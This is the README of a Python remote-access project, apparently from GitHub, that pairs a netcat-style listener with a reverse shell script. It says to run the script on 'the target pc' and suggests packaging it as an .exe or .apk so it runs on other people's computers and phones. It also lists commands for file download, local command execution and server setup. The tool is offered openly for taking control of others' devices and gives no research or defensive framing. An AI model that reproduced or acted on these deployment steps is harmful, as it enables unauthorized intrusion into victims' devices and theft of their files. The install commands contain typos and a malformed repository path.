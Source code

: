 # netcut-and-reverce_shell
Controlling othe pc or phone with python
__________________________________
[#] install:.
       ~$git clone https://github.com/omer-devil/netcut-and-reverce_shell/tree/main.
       and move to the project directory:. 
             ~$cd netcut-and-reverce_shellh.
       now install the requirements.
             ~$pip3 install -r requirements.txt.
       
___________________________________
[#] how to use:
       first run Net-Cat on your computer:
               ~$python3 netcat.py
       then run reverce_shell on the target pc
               ~$python3 reverce_shell.py
       and then you get access to the target pc or phone
       note:-you can conver reverce_shell.py into .exe file or .apk file
            to conver it to .exe use pyinstaller and
            for .apk use buildozer
     
[#] all the command available with use and example:
    Commands.                 Use.                                  Example
    l-host.                   local-host <command>                  local-host ls
    download.                 download <file name>                  download music.mp4
    server.                   server <IP:PORT>                      server 127.0.0.1:468
    target-ip.                target-ip                             it shows the target ip
    output_save.              output_save <True/False>              output_seve True or output_save False
    
    help.                     shows this help message
